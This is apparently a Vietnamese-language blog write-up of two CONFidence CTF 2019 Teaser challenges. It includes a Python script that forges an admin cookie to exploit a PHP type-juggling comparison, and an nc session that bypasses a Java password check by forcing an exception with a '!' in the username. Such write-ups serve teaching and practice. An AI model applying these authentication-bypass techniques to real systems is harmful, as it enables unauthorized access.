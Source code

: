 ```yaml
---
layout: post
comments: true
title: CONFidence CTF 2019 Teaser
categories: ['2019']
tags: [java,type juggling,php,exception]
---
```

Giải do team p4 tổ chức, và tất nhiên là rất chất lượng. Nhưng là mới chỉ là Teaser thôi nên mình vẫn chưa ngập hành. 


![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con1.png "CONFidence CTF 2019")

# My admin panel (WEB)
[Link Challenge](https://gameserver.zajebistyc.tf/admin/)

Vào challenge mình thấy có ngay 2 file là login.php và login.php.bak (File Backup)

![alt text](https://raw.githubusercontent.com/matuhn/matuhn.github.io/master/images/con2.png "/admin")

Nội dung file index.php.bak

```PHP
<?php

include '../func.php';
include '../config.php';

if (!$_COOKIE['otadmin']) {
    exit("Not authenticated.\n");
}

if (!preg_match('/^{"hash": [0-9A-Z\"]+}$/', $_COOKIE['otadmin'])) {
    echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n";
    exit();
}

$session_data = json_decode($_COOKIE['otadmin'], true);

if ($session_data === NULL) { echo "COOKIE TAMPERING xD IM A SECURITY EXPERT\n"; exit(); }

if ($session_data['hash'] != strtoupper(MD5($cfg_pass))) {
    echo("I CAN EVEN GIVE YOU A HINT XD \n");

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }

    exit("\n");
}

display_admin();
```

Đọc hiểu code thì nó sẽ lấy giá trị của cookie `otadmin` check xem có dạng /^{"hash": [0-9A-Z\"]+}$/ hay là không
Nói dễ hiểu hơn thì cookie sẽ phải có dạng json {"hash" : "abcxyz123jj"} thì pass cái if 1 và if 2 if 3
để pass cái if thứ 4 thì cái giá trị của hash khi parse vào phải bằng với giá trị của `strtoupper(MD5($cfg_pass))`

Nếu không thể pass if 4 nó sẽ gợi ý cho mình bằng function sau 

```PHP

    for ($i = 0; i < strlen(MD5('xDdddddd')); i++) {
        echo(ord(MD5($cfg_pass)[$i]) & 0xC0);
    }
```

Output:

```
0 0 0 64 64 64 0 64 0 0 64 0 0 0 64 64 64 64 0 0 0 64 0 0 64 0 64 0 64 64 0 0
```

Sau 1 hồi nghịch ngợm với cái đống này thì mình phát hiện ra 1 điều 
Nếu `ord(MD5($cfg_pass)[$i])` return từ 0 - 63 thì `ord(MD5($cfg_pass)[$i]) & 0xC0` = 0
Còn lại thì sẽ ra 64, điều đó đồng nghĩa với việc với 1 mỗi 1 con số từ 0-9 -> sẽ có 1 số 0 
và nếu là kí tự , thì sẽ có số 64 
So sánh với Output ở trên mình sẽ có 3 giá trị đầu tiên là number , và giá trị thứ 4 là character 

Tất nhiên là không thể brute được cái cfg_pass là gì, làm gì có cái mùa xuân đó, nếu brute được thì chắc mất cả năm 
Nên mình nhìn lại toàn bộ source code 1 lần nữa thì dòng này khiến cho mình chú ý 

```PHP
if ($session_data['hash'] != strtoupper(MD5($cfg_pass)))
```

Tại sao là `!=` chứ không phải là `!==` ? PHP Type Juggling ? Trùng hợp là 3 kí tự đầu tiên lại là number 
Chắc chắn là Type Juggling 

Solution: 

```python
import requests,json
def bruteCookie(i):
    url = "https://gameserver.zajebistyc.tf/admin/login.php"
    cookie = json.dumps({
        "hash" : (i)
    })
    cookie = {"otadmin" : cookie}
    print (cookie)
    answer = requests.get(url,cookies=cookie)
    if not "I CAN EVEN " in answer.text:

        print answer.text


for i in range(1,999):
    bruteCookie(i)
```

Flag : `p4{wtf_php_comparisons_how_do_they_work}`

# Sloik (MISC)

```
nc sloik.zajebistyc.tf 30001
```
Cho 2 file source, 1 file py, 1 file jar

Source Python:

```python
import os
import shutil
import signal
import subprocess
import sys

cwd = os.getcwd()
sandbox_name = ''


def cleanup(a, b):
    global sandbox_name
    if sandbox_name != '':
        sandbox_path = os.path.join(cwd, sandbox_name)
        if os.path.exists(sandbox_path):
            shutil.rmtree(sandbox_path)


def main():
    global sandbox_name
    signal.signal(signal.SIGALRM, cleanup)
    signal.alarm(10)

    print "username: ",
    sys.stdout.flush()
    sandbox_name = sys.stdin.readline().strip()
    sandbox_path = os.path.join(cwd, "sandbox", os.path.basename(sandbox_name))

    if os.path.exists(sandbox_path):
        print "Sorry, this name is taken"
        exit(1)
    else:
        os.mkdir(sandbox_path)
        java_app = 'sloik-1.0-SNAPSHOT-jar-with-dependencies.jar'
        shutil.copy(java_app, sandbox_path)
        flag_data = open('flag.txt','r').read()
        os.chdir(sandbox_path)
        subprocess.call(['java', '-Xmx8m', '-jar', java_app], stdin=sys.stdin, stdout=sys.stdout, stderr=sys.stderr, env={'flag': flag_data})
    os.chdir("../")
    cleanup("","")


main()
```

Source Java:

```java
/* 
 * Decompiled with CFR 0.140.
 */
package team.p4.sloik;

import java.io.InputStream;
import java.io.PrintStream;
import java.util.Properties;
import java.util.Scanner;

public class Main {
    public static void main(String[] args) {      
        Properties properties = new Properties(); 
        try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
        Scanner sc = new Scanner(System.in);
        System.out.println("Password:");
        String password = sc.nextLine();
        if (password.equals(properties.get("password"))) {
            System.out.println("Welcome admin, flag is: " + System.getenv("flag")); 
        }
    }
}
```

À, bài này nó cho file jar để đọc Code file jar thì mình xài [CFR](https://www.benf.org/other/cfr/)

ok nhìn vào thì khi nc tới server của nó, nó sẽ bắt mình nhập 2 thông tin là username và password
Username khi mình nhập vào nó sẽ dùng để tạo 1 folder ở server của nó, rồi copy cái file jar trên vào rồi check tiếp 
Nhìn qua file java thì nếu password trùng với password trong file config của nó thì ra flag 

```java
try {
            InputStream stream = Main.class.getResourceAsStream("/application.properties"); 
            properties.load(stream);
        }
        catch (Exception e) {
            properties.put("password", "default");
        }
```

Nhưng mà cái ở đây mình để ý là phần catch Exception, thầy dạy Java của mình ở trường đã bảo là khi code có vô số trường hợp xảy ra mà người lập trình không thể dự tính trước được thì sẽ catch lại bằng cái Exception 

Sẽ không có vấn đề gì với cái code này nếu người ra đề không phải là team p4
Thử Google 1 chút với keyword `getResourceAsStream jar throw exception report bug java` thì tìm dc [Link](https://bugs.java.com/bugdatabase/view_bug.do?bug_id=4523159) này, do team p4 report luôn

Đại loại bug này là nếu mình thêm `!` vào sau cái tên directory thì khi `getResourceAsStream` parse vào sẽ quăng Exception 
Nếu bị quăng Exception thì sao? password sẽ được set thành `default` 
```
matuhn@SE130149:/mnt/d/ctf/tool/jd-gui$ nc sloik.zajebistyc.tf 30001
username: z3r0_n1ght!
Password:
default
Welcome admin, flag is: p4{fire_exclamation_mark_fire_exclamation_mark}
```


